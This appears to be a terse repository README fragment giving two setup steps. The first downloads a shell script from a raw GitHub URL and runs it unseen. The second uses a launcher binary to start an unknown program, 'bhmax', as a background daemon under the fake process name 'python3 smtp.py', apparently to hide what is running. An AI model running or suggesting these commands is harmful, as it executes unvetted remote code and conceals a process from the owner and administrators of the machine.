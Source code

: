 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two

./hi -s "python3 smtp.py" -d -p test.pid ./bhmax
